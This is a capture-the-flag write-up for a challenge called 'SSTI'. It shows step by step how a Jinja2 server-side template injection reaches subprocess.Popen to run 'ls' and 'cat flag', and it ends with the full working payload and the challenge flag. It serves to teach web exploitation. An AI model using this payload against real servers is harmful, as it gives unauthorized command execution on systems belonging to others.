 Title: SSTI

Description

```
I only talk to smart ppl (not you)

(also only smart ppl can execute the binary)

Link: http://alpha.8059blank.ml:4004
Mirror: http://beta.8059blank.ml:4004

Author: Lucas
```

Visiting the webpage, it shows a textbox, and a title of 'School of Scholars and Top Intelligents':

![image](https://user-images.githubusercontent.com/63996033/197450310-f780fff7-16c2-48ba-ba7b-c585bda6c747.png)

The main clue here is SSTI, not to be confused with the title of the webpage: SSTI (Server Side Template Injection). So we need to inject code into the textbox which we can run shell and commands to find the flag.
This webpage gives a good flow of what we can do: https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

In the textbox, we need to use a payload inside of {{}}. The one we will try is  ```{{‘’.__class__.__mro__}}```

![image](https://user-images.githubusercontent.com/63996033/197451069-92075e43-9f1a-4d64-b67d-7aa661192f56.png)
![image](https://user-images.githubusercontent.com/63996033/197451084-9b8605ff-08f6-4515-9deb-4ad93b51a3ba.png)

We are now able to access the class objects. We will add '[1].__subclasses__()' at the end of the payload to access the subclasses which allows us to get the shell commands.

![image](https://user-images.githubusercontent.com/63996033/197451331-0034c595-acfc-45a6-a30c-f83e7fd5bee4.png)
![image](https://user-images.githubusercontent.com/63996033/197451345-a136effb-a90a-46b4-b37a-c17ac9bf3199.png)

Nice! 
We now need to access  <class 'subprocess.Popen'>, which is element 350 (by trial and error, or counting will work but is time consuming).

![image](https://user-images.githubusercontent.com/63996033/197451533-dcd7da50-9851-471a-8b7a-350ac019856c.png)
![image](https://user-images.githubusercontent.com/63996033/197451547-f3dc39f2-a6c1-455d-aa8b-91c6e54e4b4c.png)

Using info from this: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-subprocesspopen
We can add ('<SHELL COMMAND>',shell=True,stdout=-1).communicate()[0].strip() to the end of our payload to do shell commands. The first command we will do is 'ls' to list all files in the directory.

![image](https://user-images.githubusercontent.com/63996033/197452312-7354f166-6bae-47e0-847f-3a2cd98c7ef7.png)

This shows a file called 'flag' which is what we want. Next command is 'cat flag' to access the contents of that file and get the flag.

![image](https://user-images.githubusercontent.com/63996033/197452417-da4aee4d-729e-4765-b9eb-d7874f1691d7.png)

Doing so will give us this. A simple Ctrl+F gives us:

![image](https://user-images.githubusercontent.com/63996033/197452479-fe5f3c82-1b02-43b7-a45b-0bd33394ef62.png)

We got our flag using this:
```
{{ ''.__class__.__mro__[1].__subclasses__()[350]('cat flag',shell=True,stdout=-1).communicate()[0].strip()}}
```

Flag: ACSI{s0m3t1m3s_my_g3n1u5...it5...it5_alm05t_fr1ght3ning...}
